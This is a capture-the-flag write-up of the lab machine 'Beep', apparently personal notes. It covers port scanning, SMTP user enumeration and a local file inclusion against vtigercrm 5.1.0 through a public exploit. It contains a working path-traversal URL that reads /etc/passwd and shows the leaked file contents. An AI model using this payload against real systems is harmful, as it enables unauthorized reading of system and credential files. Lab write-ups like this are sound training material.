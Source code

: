 # Beep

## Recon

Tags: LFI, web 

### Scan findings
```nmap
PORT      STATE SERVICE    REASON         VERSION
22/tcp    open  ssh        syn-ack ttl 63 OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp       syn-ack ttl 63 Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       syn-ack ttl 63 Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
110/tcp   open  pop3       syn-ack ttl 63 Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp   open  rpcbind    syn-ack ttl 63 2 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       syn-ack ttl 63 Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: NAMESPACE THREAD=ORDEREDSUBJECT LIST-SUBSCRIBED URLAUTHA0001 LISTEXT OK X-NETSCAPE IDLE RENAME CATENATE CONDSTORE MULTIAPPEND THREAD=REFERENCES ANNOTATEMORE Completed SORT=MODSEQ SORT IMAP4rev1 ATOMIC NO QUOTA BINARY LITERAL+ ACL CHILDREN ID IMAP4 STARTTLS MAILBOX-REFERRALS UNSELECT UIDPLUS RIGHTS=kxte
443/tcp   open  ssl/http   syn-ack ttl 63 Apache httpd 2.2.3 ((CentOS))
|_http-server-header: Apache/2.2.3 (CentOS)
| http-robots.txt: 1 disallowed entry
|_/
878/tcp   open  status     syn-ack ttl 63 1 (RPC #100024)
993/tcp   open  ssl/imap   syn-ack ttl 63 Cyrus imapd
995/tcp   open  pop3       syn-ack ttl 63 Cyrus pop3d
3306/tcp  open  mysql      syn-ack ttl 63 MySQL (unauthorized)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve      syn-ack ttl 63 Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp? syn-ack ttl 63
4559/tcp  open  hylafax    syn-ack ttl 63 HylaFAX 4.3.10
5038/tcp  open  asterisk   syn-ack ttl 63 Asterisk Call Manager 1.1
10000/tcp open  http       syn-ack ttl 63 MiniServ 1.570 (Webmin httpd)
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Aggressive OS guesses: Linux 2.6.9 - 2.6.24 (95%),
```

Some users found on port 25
```
[25][smtp-enum] host: 10.10.10.7   login: info  
[25][smtp-enum] host: 10.10.10.7   login: adm  
[25][smtp-enum] host: 10.10.10.7   login: root  
[25][smtp-enum] host: 10.10.10.7   login: mysql  
[25][smtp-enum] host: 10.10.10.7   login: ftp
```

https webserver has a few webpages
```
200        1l        6w      894c https://10.10.10.7/favicon.ico  
200        2l        4w       28c https://10.10.10.7/robots.txt  
200       35l      111w     1785c https://10.10.10.7/  
200       35l      111w     1785c https://10.10.10.7/config.php  
200       35l      111w     1785c https://10.10.10.7/index.php  
200       35l      111w     1785c https://10.10.10.7/register.php
```

The site on 443 is an Elastics CRM login page.

![[Pasted image 20220113213548.png]]

## Exploitation

It might be this, considering the LFI tag.

![[Pasted image 20220113212032.png]]

That exploit doesn't work, however it does help to enumerate vtigercrm. I checked, and sure enough it's on this box. The login page even discloses the version `5.1.0`

![[Pasted image 20220113213050.png]]

This new exploit [EDB-18770](https://www.exploit-db.com/exploits/18770), suggests the following url: `https://localhost/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00`

Sure enough, I can read files now.

![[Pasted image 20220113213426.png]]

After some testing, it looks like we only need to go up 4 directories in the directory traversal: `/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../etc/passwd%00`

Contents of `/etc/passwd`
```bash
root:x:0:0:root:/root:/bin/bash
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
```

I was able to get the user flag using LFI

![[Pasted image 20220113215313.png]]

# Privilege Escalation.

I still don't have command execution. I should probably look around at other files to see if any credentials can be read.